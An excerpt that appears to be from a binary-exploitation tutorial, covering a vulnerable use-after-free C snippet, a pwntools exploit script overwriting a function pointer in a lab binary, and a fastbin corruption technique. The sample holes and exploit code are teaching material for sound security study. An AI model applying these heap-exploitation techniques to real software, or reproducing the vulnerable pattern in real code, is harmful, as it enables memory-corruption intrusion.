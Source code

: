 ### Use-After-Free (UAF)

```c
// Vulnerable code
char *ptr1 = malloc(100);
free(ptr1);
// ptr1 is not set to NULL!

char *ptr2 = malloc(100);  // Might reuse ptr1's memory
// Now ptr1 and ptr2 point to same memory

strcpy(ptr1, user_input);  // UAF write!
```

**Exploitation**:

```python
#!/usr/bin/env python3
from pwn import *

p = process('./heap_vuln')

# Allocate object with function pointer
p.sendline(b"alloc 0 100")

# Free it
p.sendline(b"free 0")

# Allocate again, overwrite function pointer
payload = p64(0xdeadbeef) * 10
payload += p64(0x401337)  # Address of win() function
p.sendline(b"alloc 1 100")
p.send(payload)

# Trigger use-after-free
p.sendline(b"use 0")
p.interactive()
```

### Heap Overflow Techniques

**Fastbin Attack**:

```python
# Corrupt fastbin fd pointer to arbitrary address
# 1. Allocate and free chunks to populate fastbin
alloc(0, 0x10)
alloc(1, 0x10)
alloc(2, 0x10)

free(1)
free(0)

# 2. Overflow from chunk before fastbin chunk
payload = b"A" * 0x10  # Fill chunk
payload += p64(0x21)   # Size (preserve)
payload += p64(target_address)  # Corrupt fd pointer

edit(2, payload)

# 3. Allocate twice to get chunk at target_address
alloc(3, 0x10)  # Gets original freed chunk
alloc(4, 0x10)  # Gets chunk at target_address!
```
